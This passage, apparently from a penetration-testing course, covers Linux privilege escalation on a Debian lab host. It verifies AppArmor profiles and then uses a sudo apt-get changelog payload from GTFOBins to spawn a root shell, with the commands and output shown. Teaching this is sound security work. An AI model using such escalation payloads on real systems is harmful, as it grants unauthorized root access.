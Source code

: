 AppArmor is a kernel module that provides mandatory access control (MAC) on Linux systems by running various application-specific profiles, and it's enabled by default on Debian 10. We can verify AppArmor's status as the *root* user using the **aa-status** command.

```
joe@debian-privesc:~$ su - root
Password:
root@debian-privesc:~# aa-status
apparmor module is loaded.
20 profiles are loaded.
18 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
...
2 profiles are in complain mode.
   libreoffice-oopslash
   libreoffice-soffice
3 processes have profiles defined.
3 processes are in enforce mode.
   /usr/sbin/cups-browsed (502)
   /usr/sbin/cupsd (654)
   /usr/lib/cups/notifier/dbus (658) /usr/sbin/cupsd
0 processes are in complain mode.
0 processes are unconfined but have a profile defined.
```

> Listing 51 - Verifying AppArmor status

Listing 51 confirms that tcpdump is actively protected with a dedicated AppArmor profile.

Since the first two commands from the **sudoers** file did not work, let's examine the third allowed *sudo* command: *apt-get*. Returning to [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo), we'll select the first option (a). The payload first runs the changelog *apt-get* command option, invoking the *less* application from which we can execute a bash shell.

```
sudo apt-get changelog apt
!/bin/sh
```

> Listing 52 - 'Apt-get' privilege escalation payload

We can try the above commands as the *joe* user by copying them in our active shell.

```
joe@debian-privesc:~$ sudo apt-get changelog apt
...
Fetched 459 kB in 0s (39.7 MB/s)
# id
uid=0(root) gid=0(root) groups=0(root)
```
